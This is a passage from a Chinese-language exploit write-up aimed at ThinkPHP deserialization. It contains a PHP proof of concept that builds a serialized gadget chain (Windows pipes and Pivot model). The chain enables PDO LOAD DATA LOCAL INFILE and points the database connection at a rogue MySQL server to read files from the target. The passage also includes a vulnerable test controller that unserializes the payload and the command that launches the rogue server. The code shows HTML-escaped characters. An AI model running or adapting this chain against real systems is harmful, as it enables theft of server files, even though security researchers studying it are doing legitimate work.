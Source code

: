 ```
            // 密码
            'password'        =&gt; 'xxx',
            'params' =&gt; [
                //让PDO能够执行LOAD DATA LOCAL
                \PDO::MYSQL_ATTR_LOCAL_INFILE =&gt; true,
                //重写配置，让PDO LOAD DATA LOCAL不报错
                \PDO::ATTR_EMULATE_PREPARES  =&gt; true,
            ]
        ];
    `}`
`}`

namespace think\model`{`
    class Pivot extends \think\Model`{`
    `}`
`}`

namespace think\process\pipes`{`
    class Windows`{`
        private $files = [];
        public function __construct()`{`
            $this-&gt;files[] = new \think\model\Pivot();
        `}`        
    `}`
`}`
namespace`{`
    $a = new \think\process\pipes\Windows();
    echo base64_encode(serialize($a));
`}`
?&gt;
```

在TP的控制器处新建一个 `index.php`。写入如下测试代码：

```
&lt;?php
namespace app\index\controller;

class Index
`{`
    public function index()
    `{`
       $a = base64_decode('生成的POC');
       unserialize($a);
    `}`
`}`
```

开启Rogue Mysql：

```
python rogue_mysql_server.py
```

